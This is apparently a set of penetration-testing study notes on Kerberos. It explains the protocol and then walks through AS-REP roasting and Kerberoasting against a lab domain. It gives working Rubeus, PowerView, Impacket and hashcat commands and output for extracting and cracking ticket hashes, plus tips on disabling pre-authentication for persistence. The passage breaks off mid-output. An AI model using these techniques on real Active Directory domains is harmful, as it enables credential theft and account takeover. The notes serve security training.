










# Kerberos Attacks

## Introduction

### Kerberos Authentication Process

In Kerberos context, there are three entities when a user want to access a service; the user, the service, and the authentication server, also known as the Key Distribution Center, or KDC.

The KDC is the entity that knows all accounts' credentials.

#### Why Kerberos

On the one hand, it is used to centralize authentication to avoid all services having to know every user's credentials. This is extremely pratical in a context where users are regularly updated, whether because of a password change, the addition of a new user, or the deactivation or deletion of a user. If all services had to know the status of all users, this would create immense complexity. Instead, only one entity, the KDC, must have an up-to-date list of existing users.

On the other hand, this protocol allows users to authenticate against services without sending a password over the network. This is an excellent security measure to protect against man-in-the-middle attacks.

#### High-level Overview

##### Tickets

To meet both ends, Kerberos uses secret keys and a ticketing mechanism. The secret keys are, in practice, in an AD environment, the passwords of the different accounts.

From a high-level perspective, here's how a user can access a service.

1. To start, the user will request the first ticket from the KDC, proving they are who they claim to be. This is when the client authenticates to the KDC. This ticket, called a TGT, is the user's identity card. It contains all the information about the user, such as name, date of account creation, security information about the user, the groups to which the user belongs, etc. This identity card, the TGT, is limited to a few hours only by default. This ticket is presented for all other requests to the KDC.
2. Once this TGT has been obtained, the user will present it to the KDC each time they need to access a service. The KDC will then verify that the submitted TGT is valid and that the user did not forge it, and if so, it will return a TGS or ST to the user. A copy of the user's information in the TGT is included in the TGS ticket.
3. Now that the user has a TGS ticket for a particular service, they will present this TGS ticket to the service to use it. The service will the check the validity of this ticket, and if all is well, it will read the content of the user's information to determine if the user is entitled to use the requested service. It is, therefore, the service that checks the user's access rights.

##### Ticket Protection

The information on a user provided by the KDC must be protected. The user must not be able to forge it. This is where encryption comes into play.

Each account has a password or secret, which acts as an encryption and decryption key. The KDC knows the keys of all users. To protect the tickets, here is how these keys are used.

1. The TGT sent by the KDC to the user is encrypted using the secret key of the KDC, which only the KDC knows. Thus, the user cannot read or modify the information about themself. The KDC itself protects it.
2. The TGS ticket sent by the KDC to the user is encrypted using the service's secret key. In the same way, as the user does not know the service key, they cannot modify the information in the TGS ticket. On the other hand, when they send this TGS ticket to the service, the latter can decrypt the ticket's content and read the user's information.

##### Technical Details

You've seen that access to a service is carried out in three phases:

1. TGT request: Authentication Service (_AS_)
2. TGS request: Ticket-Granting Service (_TGS_)
3. Service request: Application Request (_AP_)

#### Authentication Service (_AS_)

##### Request (_AS-REQ_)

First, the user makes a TGT request. This request is called AS-REQ. But to receive the TGT, they must be able to prove their identity. This request is made to the KDC. The KDC holds all user keys.

To prove their identity, the user will send an authenticator. It's the current timestamp that the user will encrypt with their key. The username is also sent so the KDC can know whom it is dealing with.

Upon receiving this request, the KDC will retrieve the username, look for the associated key in its directory, and attempt to decrypt the authenticator. If it succeeds, it means that the user has used the same key as the one registered in its database, so they are authenticated. Otherwise, authentication fails.

This step, called pre-authentication, is not mandatory, but all accounts must do it by default. However, it should be noted that an administrator can disable pre-authentication. In this case, the client no longer needs to send an authenticator. The KDC will send the TGT no matter what happens.

##### Response (_AS-REP_)

The KDC, therefore, received the client's request for a TGT. If the KDC successfully decrypts the authenticator, it sends a response called AS-REP to the user.

To protect the rest of the exchanges, the KDC will generate a temporary session key before replying to the user. The client will use this key for further exchanges. The KDC avoids encrypting all information with the user's key.

There are two elements that you will find in the AS-REP response:

1. First, you are waiting for the TGT that the user requested. It contains all the user's information and is protected with the KDC's key, so the user can't tamper with it. It also contains a copy of the generated session key.
2. Second is the session key, but this time protected with the user's key.

#### Ticket-Granting Service (_TGS_)

The TGS is a component of the KDC that is responsible for issuing service tickets.

Typically hosted on a DC in the AD domain. When a user or computer requests a service ticket, the request is sent to the TGS component of the KDC, which verifies the user's or computer's identity and checks their authorization to access the requested resource before issuing a service ticket that can be used to gain access to the resource.

##### Request (_TGS-REQ_)

The client now has a response from the server to its TGT request. This response contains the TGT, protected by the KDC's key, and a session key.

The next step for the user is to request a ST or TGS with a TGS-REQ message. To do this, they will transmit three things to the KDC:

1. The name of the service they wish to access
2. The TGT they previously received, containing their information and a copy of the session key
3. An authenticator, which will be encrypted using the session key at this time

##### Response (_TGS-REP_)

The KDC receives this TGS request, but Kerberos is a stateless procol. Thus, the KDC has no idea what information has been exchanged before. It must still verify that the TGS request is valid. It must verify that the authenticator has been encrypted with the correct session key to do this. And how does the KDC know if the session key used is correct? Remember that there was a copy of the session key in the TGT. The KDC will decrypt the TGT and extract the session key. With this session key, it will be able to verify the authenticator's validity.

If all this is done correctly, the KDC only has to read the requested service and respond to the user with a TGS-REP message. You saw earlier that a session key had been generated for the exchanges between the user and the KDC. Well, it's the same thing here. A new session key is generated for future exchanges between the user and the service. And as before, this session key will be present in two places in the response sent by the KDC to the user. Here are all the elements sent by the KDC:

A service ticket or TGS ticket containing three elements:

1. The name of the requested service (_its SPN_)
2. A copy of the user information that was present in the TGT. The service will read this information to determine whether or not the user has the right to use it.
3. A copy of the session key

All this information is encrypted with the user/KDC session key. Within this encrypted response, the user's information and the copy of the user/service session key are also encrypted with the service key.

#### Application Request (_AP_)

##### Request (_AP-REQ_)

The user can now decrypt this response to extract the user/service session key and the TGS ticket, but the TGS ticket is protected with the service key. The user can't modify this TGS ticket, so they can't modify their rights, just like with the TGT.

The user will only transmit this TGS ticket to the service, and just like with the TGS request, an authenticator is added to it. What will the user encrypt this authenticator with? With the user/service session key just extracted.

##### Response (_AP-REP_)

The service finally receives the TGS ticket and an authenticator encrypted with the user/service session key generated by the KDC. This TGS ticket is protected with the service's key so that it can decrypt it. Remember that a copy of the user/service session key is embedded within the TGS ticket, so it can extract it and check the validity of the authenticator with this session key.

If everything goes correctly, the service can finally read the information about the user, including the groups to which they belong, and according to its access rules, grant or deny them access to the service. If authentication is successful, the service responds to the client with an AP-REP message by encrypting the timestamp with the extracted session key. The client can then verify that this message is coming from the service and can start issuing service requests.

## Roasting Attacks

### AS-REP Roasting

= most basic Kerberos attack and targets "Pre-Authentication". This is rare in an organization but is one of the few Kerberos attacks that do not require any form of prior authentication. The only information the attacker needs is the username they want to attack, which can also be found using other enumeration techniques. Once the attacker has the username, they send a special AS_REQ packet to the KDC, pretending to be the user. The KDC sends back an AS_REP, which contains a portion of information encrypted with a key derived from the user's password. The key can be cracked offline to obtain the user's password.

#### How does it work?

TGT Requests are encrypted with the current timestamp and the account's password. The DC will decrypt this to validate that the correct password was used. If successful, a TGT will be issued to the user for further authentication requests in the domain via an AS-REP response. A session key will be provided alongside the TGT and encrypted using the user's password.

If an account has pre-authentication disabled, an attacker can obtain an encrypted TGT for the affected account without any prior authentication. These tickets are vulnerable to offline password attacks using a tool like Hashcat or John.

So, in a nutshell, it's possible to obtain the TGT for any account that has the "Do not require Kerberos preauthentication" setting enabled.

Many vendor installation guides specify that their service account be configured this way. The authentication service reply is encrypted with the account's password, and anyone on the network can request it.

AS-REP Roasting is similar to Kerberoasting but involves attacking AS-REP instead of TGS-REP.

This setting can be enumerated with Impacket, PowerView, or built-in tools such as the PowerShell AD module.

The attack can be performed with Impacket, the Rubeus toolkit and other tools to obtain the ticket for the target account. As mentioned, it is relatively rare to encounter accounts with this setting enabled. While you might stell see it during your assessments from time to time, it is usually far less present than Service Principal Names, which are often subject to a Kerberoasting attack.

There are other ways you can leverage this attack, though. Suppose an attacker has `GenericWrite` or `GenericAll` permissions over an account. In that case, they can enable this attribute and obtain the AS-REP ticket for offline cracking to recover the account's password before disabling it again. This can also be referred to as a "targeted AS-REP Roasting attack", in which you can enable the setting and AS-REP Roast the account. Still, success depends on the user having a relatively weak password.

#### Enumeration

PowerView can be used to enumerate users with their UserAccountControl property flag set to `DONT_REQ_PREAUTH`.

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainUser -UACFilter DONT_REQ_PREAUTH

logoncount                    : 0
badpasswordtime               : 12/31/1600 7:00:00 PM
distinguishedname             : CN=Jenna Smith,OU=Server Team,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
objectclass                   : {top, person, organizationalPerson, user}
displayname                   : Jenna Smith
userprincipalname             : jenna.smith@inlanefreight
name                          : Jenna Smith
objectsid                     : S-1-5-21-2974783224-3764228556-2640795941-1999
samaccountname                : jenna.smith
admincount                    : 1
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : NEVER
countrycode                   : 0
whenchanged                   : 8/3/2020 8:51:43 PM
instancetype                  : 4
usncreated                    : 19711
objectguid                    : ea3c930f-aa8e-4fdc-987c-4a9ee1a75409
sn                            : smith
lastlogoff                    : 12/31/1600 7:00:00 PM
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
dscorepropagationdata         : {7/30/2020 6:28:24 PM, 7/30/2020 3:09:16 AM, 7/30/2020 3:09:16 AM, 7/28/2020 1:45:00
                                AM...}
givenname                     : jenna
memberof                      : CN=Schema Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
lastlogon                     : 12/31/1600 7:00:00 PM
badpwdcount                   : 0
cn                            : Jenna Smith
useraccountcontrol            : PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
whencreated                   : 7/27/2020 7:35:57 PM
primarygroupid                : 513
pwdlastset                    : 7/27/2020 3:35:57 PM
msds-supportedencryptiontypes : 0
usnchanged                    : 89508
```

You can also use the Rubeus tool to look for accounts that do not require pre-authentication with the `preauthscan` action.

> [!INFO]
> You can also use `Rubeus.exe asreproast /format:hashcat` to enumerate all accounts with the flag `DONT_REQ_PREAUTH`.

#### Performing the Attack

With this information, the Rubeus tool can be leveraged to retrieve the AS-REP in the proper format for offline hash cracking. This attack does not require any domain user context and can be done by just knowing the account name for the user without Kerberos pre-authentication set.

```powershell
PS C:\Tools> .\Rubeus.exe asreproast /user:jenna.smith /domain:inlanefreight.local /dc:dc01.inlanefreight.local /nowrap /outfile:hashes.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: AS-REP roasting

[*] Target User            : jenna.smith
[*] Target Domain          : inlanefreight.local
[*] Target DC              : dc01.inlanefreight.local

[*] Using domain controller: dc01.inlanefreight.local (fe80::c872:c68d:a355:e6f3%11)
[*] Building AS-REQ (w/o preauth) for: 'inlanefreight.local\jenna.smith'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$jenna.smith@inlanefreight.local:9369076320<SNIP>
```

#### Hash Cracking

The tool returns a list of hashes with the various TGTs. All that's left to do is to use Hashcat to try and retrieve the clear text password associated with these different accounts. The Hashcat hash-mode is 18200.

```
C:\Tools\hashcat-6.2.6> hashcat.exe -m 18200 C:\Tools\hashes.txt C:\Tools\rockyou.txt -O

hashcat (v6.2.6) starting

OpenCL API (OpenCL 2.1 WINDOWS) - Platform #1 [Intel(R) Corporation]
====================================================================
* Device #1: AMD EPYC 7401P 24-Core Processor, 2015/4094 MB (511 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: C:\Tools\rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5asrep$23$jenna.smith@INLANEFREIGHT.LOCAL:c4caff1049fd667...9b96189d8804:dancing_queen101
<SNIP>
```

#### Set `DONT_REQ_PREAUTH` with PowerView

If you find that you have `GenericAll` privileges on an account, instead of resetting the account password, you can enable the `DONT_REQ_PREAUTH` flag to make a request to get the hash of this account and try to crack it. You can use the PowerView module to do it.

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Set-DomainObject -Identity userName -XOR @{useraccountcontrol=4194304} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=userName)(name=userName)(displayname=userName))))
VERBOSE: [Set-DomainObject] XORing 'useraccountcontrol' with '4194304' for object 'userName'
```

### AS-REP Roasting from Linux

Impacket's GetNPUsers.py script can be used to enumerate users with their UAC value set to `DONT_REQ_PREAUTH`.

```bash
d41y@htb[/htb]$ GetNPUsers.py inlanefreight.local/pixis

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation


Name         MemberOf                                             PasswordLastSet             LastLogon                   UAC      
-----------  ---------------------------------------------------  --------------------------  --------------------------  --------
amber.smith                                                       2020-07-27 21:35:52.333183  2020-07-28 20:34:15.215302  0x410220 
jenna.smith  CN=Schema Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2020-07-27 21:35:57.901421  <never>                     0x410220
```

Now that you have a list of vulnerable accounts, you can request their hashes in Hashcat's format by adding the `-request` parameter to your command.

```bash
d41y@htb[/htb]$ GetNPUsers.py inlanefreight.local/pixis -request           

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation


Name         MemberOf                                             PasswordLastSet             LastLogon                   UAC      
-----------  ---------------------------------------------------  --------------------------  --------------------------  --------
amber.smith                                                       2020-07-27 21:35:52.333183  2020-07-28 20:34:15.215302  0x410220 
jenna.smith  CN=Schema Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2020-07-27 21:35:57.901421  2020-08-12 16:20:21.383297  0x410220 

$krb5asrep$23$amber.smith@INLANEFREIGHT.LOCAL:d28eecddc8c5e18157b3d73ec4a68aa5$2a881995d52a313d265<SNIP>
$krb5asrep$23$jenna.smith@INLANEFREIGHT.LOCAL:e65a2fa83383a0c1f189408c07fe6d32$5b0478cd94258778478<SNIP>
```

#### Finding Vulnerable Accounts without Authentication

If you do not have credentials on the domain but have a username list, you can still find accounts that do not require pre-authentication. Using `GetNPUsers.py`, you can search for each account inside the file containing the user list to identify if there is at least one account vulnerable to this attack:

```bash
d41y@htb[/htb]$ GetNPUsers.py INLANEFREIGHT/ -dc-ip 10.129.205.35 -usersfile /tmp/users.txt -format hashcat -outputfile /tmp/hashes.txt -no-pass

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

You may receive an error, but you will still get the hash of the account.

#### Red Team Usage

Red Teams may utilize AS-REP Roasting as part of two attack chains:

- **Persistence**: Setting this bit on accounts would allow attackers to regain access to accounts in case of password change. This is useful because it lets the team establish persistence on boxes that are likely outside the scope of monitoring and still have a high probability of gaining access to the domain at any time. You may see this setting enabled on service accounts used by old management applications, and if discovered, the blue team may ignore them.
- **PrivEsc**: There are many scenarios where an attacker can change any attribute of an account but not the ability to log in without knowing or resetting the password. Password resets are dangerous as they have a high probability of raising alarms. Instead of resetting the password, attackers can enable this bit and attempt to crack the account's password hash.

### Kerberoasting

... is an attack against service accounts that allow an attacker to perform an offline password-cracking attack against the AD account associated with the service. It is similar to AS-REP Roasting but does require prior authentication to the domain. In other words, you need a valid domain user account and password or a SYSTEM shell on a domain-joined machine to perform the attack.

When a service is registered, a Service Principal Name is added to AD and is an alias to an actual AD account. The information stored in AD includes the machine name, port, and the AD Account's password hash. In a proper configuration, "Service Accounts" are utilized with these SPNs to guarantee a strong password. These accounts are like machine accounts and can even have self-rotating passwords.

It is common to see SPNs tied to User Accounts because setting up Service Accounts can be tricky, and not all vendors support them. Worst of all, the service account may break things after 30 days when it attempts to rotate the password. For System Administrators, the primary focus is uptime, which often causes them to default to using "User Accounts", which is fine as long as they assign the account a strong password.

During a pentest, if an SPN is found tied to a user account and cracking was unsuccessful, it should be marked as a low severity finding and just noted that this allows attackers to perform offline password cracking attacks against this accout. The potential risk here is that if, someday, this account's password is set to something weaker that an attacker can crack.

#### Technical Details

When the KDC responds to a TGS request, the message it sends is fully encrypted with the session key shared between the user and the KDC, so the user can decrypt it because they know it. However, the embedded TGS ticket or Service Ticket is encrypted with the service account's secret key. The user, therefore, has a piece of data encrypted with the service account's password.

A user can request a Service Ticket for all available services existing on the AD environment and have those tickets encrypted with the secret of each service account in their possession.

Now that they have a Service Ticket encrypted with a service account's password, the user can perform an offline brute-force attack to try to recover the password in clear text.

However, most services are executed by machine accounts, which have 120 characters long randomly generated passwords, making it impractical to brute force.

Luckily, sometimes services are executed by user accounts. These are the services you are interested in. A user account has a password set by a human, which is much more likely to be predictablel. These are the accounts that the Kerberoast attack targets. When SPN accounts are set to use the RC4 encrpytion algorithm, the tickets can be much easier to crack offline. You may run into organizations using only the legacy, cryptographically insecure RC4 encryption algorithm. In constrast, other mature organizations employ only AES, which can be much more challenging to crack, even on a robust password-cracking rig.

#### Manual Detection

You then look for user accounts exposing a service. An account that exposes a service has a SPN. It is an LDAP attribute set on the account indicating the list of existing services provided by this account. If this attribute is not empty, this account offers at least one service.

Here is an LDAP filter to search for users exposing a service:

```
&(objectCategory=person)(objectClass=user)(servicePrincipalName=*)
```

This filter returns a list of users with a non-empty SPN. A small PowerShell script allows you to automate finding these accounts in an environment:

```powershell
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"
$results = $search.Findall()
foreach($result in $results)
{
    $userEntry = $result.GetDirectoryEntry()
    Write-host "User" 
    Write-Host "===="
    Write-Host $userEntry.name "(" $userEntry.distinguishedName ")"
        Write-host ""
    Write-host "SPNs"
    Write-Host "===="     
    foreach($SPN in $userEntry.servicePrincipalName)
    {
        $SPN       
    }
    Write-host ""
    Write-host ""
}
```

The script connects to the DC and searches for all objects that match your provided filter. Each result shows you its name and the list of SPNs associated with this account.

This script allows you to have a list of Kerberoastable accounts, but it does not perform a TGS request and does not extract the hash you can brute force.

You can also use the `SetSpn` built-in from Windows binary to search for SPN accounts. Link: https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)

#### Automated Tools

[PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) can be used to enumerate users with an SPN set and request the Service Ticket automatically to then output a crackable hash. You can use the following method to enumerate accounts with SPNs set.

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainUser -SPN

logoncount                    : 0
badpasswordtime               : 12/31/1600 8:00:00 PM
description                   : Key Distribution Center Service Account
distinguishedname             : CN=krbtgt,CN=Users,DC=inlanefreight,DC=local
objectclass                   : {top, person, organizationalPerson, user}
name                          : krbtgt
primarygroupid                : 513
objectsid                     : S-1-5-21-228825152-3134732153-3833540767-502
samaccountname                : krbtgt
admincount                    : 1
codepage                      : 0
samaccounttype                : USER_OBJECT
showinadvancedviewonly        : True
accountexpires                : NEVER
cn                            : krbtgt
whenchanged                   : 5/4/2022 8:04:31 PM
instancetype                  : 4
objectguid                    : a68bfed4-1ccf-4b62-8efa-63b32841c05d
lastlogon                     : 12/31/1600 8:00:00 PM
lastlogoff                    : 12/31/1600 8:00:00 PM
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=inlanefreight,DC=local
dscorepropagationdata         : {5/4/2022 8:04:31 PM, 5/4/2022 7:49:22 PM, 1/1/1601 12:04:16 AM}
serviceprincipalname          : kadmin/changepw
memberof                      : CN=Denied RODC Password Replication Group,CN=Users,DC=inlanefreight,DC=local
whencreated                   : 5/4/2022 7:49:21 PM
iscriticalsystemobject        : True
badpwdcount                   : 0
useraccountcontrol            : ACCOUNTDISABLE, NORMAL_ACCOUNT
usncreated                    : 12324
countrycode                   : 0
pwdlastset                    : 5/4/2022 3:49:21 PM
msds-supportedencryptiontypes : 0
usnchanged                    : 12782
<SNIP>
```

You can also use PowerView to directly perform the Kerberoasting attack.

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainUser * -SPN | Get-DomainSPNTicket -format Hashcat | export-csv .\tgs.csv -notypeinformation
PS C:\Tools> cat .\tgs.csv

"SamAccountName","DistinguishedName","ServicePrincipalName","TicketByteHexStream","Hash"
"krbtgt","CN=krbtgt,CN=Users,DC=inlanefreight,DC=local","kadmin/changepw",,"$krb5tgs$18$*krbtgt$inlanefreight.local$kadmin/changepw*$B6D1ECE203852A04E57DFDD47627CDCA$D75AF1139899CA82EDA1CC6B548AACFF04DA9451F6F37E641C44F27AE2BAB86DB49F4913B5D09F447F7EEA97629A3C0FF93063F3B20273D0<SNIP>
```

Instead of the manual method, you can use the `Invoke-Kerberoast` function to perform this quickly.

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Invoke-Kerberoast

SamAccountName       : adam.jones
DistinguishedName    : CN=Adam Jones,OU=Operations,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : IIS_dev/inlanefreight.local:80
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*adam.jones$INLANEFREIGHT.LOCAL$IIS_dev/inlanefreight.local:80*$D7C42CD87BEF69BA275C9642BBEA9022BE3C1<SNIP>

SamAccountName       : sqldev
DistinguishedName    : CN=sqldev,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : MSSQL_svc_dev/inlanefreight.local:1443
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$MSSQL_svc_dev/inlanefreight.local:1443*$29A78F89AC24EADBB4532DF066B90F1D808A5<SNIP>

SamAccountName       : sqlqa
DistinguishedName    : CN=sqlqa,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : MSSQL_svc_qa/inlanefreight.local:1443
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sqlqa$INLANEFREIGHT.LOCAL$MSSQL_svc_qa/inlanefreight.local:1443*$895B5A094F49081330D4AEA7C1254F37EEAD7<SNIP>

SamAccountName       : sql-test
DistinguishedName    : CN=sql-test,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : MSSQL_svc_test/inlanefreight.local:1443
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sql-test$INLANEFREIGHT.LOCAL$MSSQL_svc_test/inlanefreight.local:1443*$68F3B21822B3C16D272F38A5658E20F580037<SNIP>

SamAccountName       : sqlprod
